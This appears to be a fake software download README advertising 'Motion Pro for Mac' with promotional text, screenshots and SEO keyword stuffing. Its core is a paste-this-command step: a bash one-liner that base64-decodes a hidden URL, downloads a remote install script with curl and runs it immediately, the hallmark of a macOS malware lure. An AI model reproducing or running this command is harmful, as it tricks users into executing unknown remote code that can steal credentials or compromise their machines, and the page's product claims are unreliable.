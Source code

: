 # Motion for Mac Download - Ultimate Motion Graphics Design Suite

![Motion Pro Screenshot](https://i.ytimg.com/vi/sx021E_9O7M/hq720.jpg)

---

### 🔽 Download Motion Pro for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is Motion Pro for Mac?

Motion Pro is a cutting-edge motion graphics software crafted exclusively for macOS, empowering creators to design cinematic titles, breathtaking visual effects, and dynamic animations with studio-grade precision. This powerhouse tool transforms complex motion design into an intuitive workflow, making it indispensable for video editors, motion designers, and digital artists.

Unlike basic animation tools, Motion Pro features a real-time rendering engine that instantly previews your creations without lag. Its advanced 3D particle system and typography tools let you craft everything from sleek broadcast graphics to explosive VFX sequences. Optimized for Apple Silicon (M1/M2 chips), it delivers buttery-smooth performance even with 4K/8K projects.

With seamless integration into Final Cut Pro and over 600 professionally designed templates, Motion Pro eliminates the steep learning curve of traditional motion software. Whether you're enhancing YouTube videos, creating AR filters, or producing TV commercials, it provides the tools to make your imagination move.

![Motion Pro Workspace](https://images.sftcdn.net/images/t_app-cover-s-16-9,f_auto/p/27330fc4-9b35-11e6-9747-00163ec9f5fa/2436659493/motion-screenshot.jpg)

---

## Key Features & Benefits

- 🎞️ Hollywood-grade motion graphics toolkit  
- ⚡️ Metal-powered real-time rendering  
- 🌀 600+ customizable templates & presets  
- 🖥️ Apple Silicon (M1/M2) optimized  
- ✨ Advanced 3D text & particle systems  
- 🤝 Final Cut Pro seamless integration  

From social media animations to feature film VFX, Motion Pro turns creative concepts into mesmerizing motion masterpieces.

---

## 🔍 Keywords 
 
Motion for Mac, Motion Mac Download, Motion for Mac Download, Motion Mac, Motion Download Mac, Motion Download for Mac, motion full version, Mac Download Motion, Download Mac Motion, Download Motion Mac, Download Motion for Mac
